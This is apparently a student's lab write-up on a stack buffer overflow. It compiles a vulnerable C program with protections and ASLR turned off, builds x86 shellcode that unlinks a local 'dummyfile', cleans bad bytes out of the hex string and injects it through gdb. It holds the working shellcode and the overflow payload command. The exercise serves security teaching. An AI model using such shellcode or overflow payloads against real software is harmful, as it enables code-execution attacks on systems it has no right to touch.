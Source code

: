 # DELETE DUMMYFILE USING INJECTION CODE

## Target

- delete `dummyfile` file by using `buffer overflow` to `inject code` into `vuln.c` file

## Prepare for lab

- Create `dummyfile` without format using:

  > touch dummyfile

![Ảnh chụp màn hình 2024-09-17 094329](https://github.com/user-attachments/assets/00df81ee-674f-478c-9c09-b34c62a215da)

- Change to shell `/bin/sh`

  > sudo ln -sf /bin/zsh /bin/sh

- Turn off OS’s address space layout randomization:

  > sudo sysctl -w kernel.randomize_va_space=0

![Ảnh chụp màn hình 2024-09-17 095310](https://github.com/user-attachments/assets/6e5b58a3-7ac7-4870-806b-499b9a2bf658)

- Compile and link the file_del.asm code using 2 commands:

  > nasm -g -f elf file_del.asm

  > ld -m elf_i386 -o file_del file_del.o

![Ảnh chụp màn hình 2024-09-17 100229](https://github.com/user-attachments/assets/a3ea15ac-5d75-498e-8adc-7f0eac6cf64c)

- Hexstring of my file_del.asm using:

  > for i in $(objdump -d file_del |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo

![Ảnh chụp màn hình 2024-09-17 101643](https://github.com/user-attachments/assets/aeaa04d3-fe70-4da8-8d99-e1e752bc17af)

- But we don't need `\xdummyfile` at the end, so we have:

  > \xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00

- stack frame of `vuln.c`.

![Ảnh chụp màn hình 2024-09-17 103054](https://github.com/user-attachments/assets/4a0f9a06-5b08-4eb1-96bd-87167d56176b)

- compile the vuln.c program using:
  > gcc -g vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2

## execution.

- I will set two breakpoint at `0x804843e` and `0x804846b`.

![Ảnh chụp màn hình 2024-09-17 103936](https://github.com/user-attachments/assets/64e07722-d58e-4ea7-ad9e-65b00fa7b487)

- If we want to execute the `file_del.asm` code on stack, we need to overflow the buffer so that `return address` points to the top of `esp` where the code will lies. It will be `36 bytes of hexstring + 32 padding bytes + 4 bytes of esp`. I will use `\xff\xff\xff\xff` to identify `ebp`, use command:

> r $(python –c “print(‘\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00’ + ‘a’\*32 + ‘\xff\xff\xff\xff)”)

![Ảnh chụp màn hình 2024-09-17 105402](https://github.com/user-attachments/assets/6268b9b7-4d87-45c3-b217-995e4fef445a)

- the address red is `ebp`.
- the address green is `Return Address`.
- `continue`

![Ảnh chụp màn hình 2024-09-17 105952](https://github.com/user-attachments/assets/a5373985-2e18-4c68-843f-585c41af45aa)

- Comparing to the hexstring, the first three 3 values are the same buf after that everything is different and `Return Address` is not `\xff\xff\xff\xff`.

  - we have `\x0a(/n)` in the hex string.
  - `\x00` have problem in 32 bits register `eax`.

![Ảnh chụp màn hình 2024-09-17 110946](https://github.com/user-attachments/assets/3e26783d-ccda-4009-b1b2-d019b622a806)

- In the `file_del.asm`:

![Ảnh chụp màn hình 2024-09-17 204933](https://github.com/user-attachments/assets/fcc6436d-d366-4d84-8e9e-5d1ed44220ea)

- The `\x0a` comes from the line `move eax, 10`.
- The `\x00` comes from `eax`. Because `eax` is 32 bits register so when we move a small value into `eax`, the high bits of this register (24 bits) will automatically be filled with `0`.

- We need to edit a few lines of code in `file_del.asm`:

  - Use `al` register. Because this is the lowest 8-bit part of the `eax` register. When you move a value into `al`, only 8-bits (1 byte) are changed, not affecting the rest of `eax`.
  - Clear the `eax` register using command:
    > xor eax, eax
  - Replace `move eax, 10` with:

    > mov al, 8

    > add al, 2

![Ảnh chụp màn hình 2024-09-17 210413](https://github.com/user-attachments/assets/dd513035-9961-4431-9ff3-d97058b5a69e)

- We recompile `file_del.asm`, get the new hexstring and run the program.

  - The new hexstring is `\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00`

![Ảnh chụp màn hình 2024-09-17 211047](https://github.com/user-attachments/assets/25e5e582-d0e9-46cd-bcd7-3b12301ee1ba)

- At the end still `\x00`, I will change it to `\x01`. Now, the `Return Address` is `\xff\xff\xff\xff`.

![Ảnh chụp màn hình 2024-09-17 212405](https://github.com/user-attachments/assets/f503a561-6b50-4dae-81db-8775db9cf862)

- We will change the address `0xffffd63c`(the first `\xff`) to the address of `esp` `0xffffd5f8`, set the address `0xffffd61b` to `\x00` and `continue`.

![Ảnh chụp màn hình 2024-09-17 213453](https://github.com/user-attachments/assets/bbcbd0b3-3536-4ce7-90c5-65ad742153a6)

![Ảnh chụp màn hình 2024-09-17 213630](https://github.com/user-attachments/assets/52a4c003-22b6-4a62-9a7c-a0dc910f8efa)

- But dummyfile has not been deleted yet!

- Look at `file_del`.

![Ảnh chụp màn hình 2024-09-17 215849](https://github.com/user-attachments/assets/aaf9510a-dc9a-4258-a43f-6a148d0d8c86)

- `dummyfile` is stored at address `0x0804807a` including bytes `64 75 6d 6d 79 66 69 6c 65 00`. The command `mov ebx,_filename` causes the `ebx` register to `point to the address of _filename` here which is `0x0804807a`. What we just "deleted" is to make the `ebx` register `no longer point to the address of _filename`, not delete the `dummyfile`. So we need to `set the address of dummyfile in the program to the address of ebx`.

![Ảnh chụp màn hình 2024-09-17 221609](https://github.com/user-attachments/assets/4c83892e-f4e6-4b6d-b187-9881b9c2b4aa)

![Ảnh chụp màn hình 2024-09-17 221857](https://github.com/user-attachments/assets/a684d448-36f1-4e3a-a3b6-24bc7c2ef6fd)

- `dummyfile` has been deleted. The lab is done.
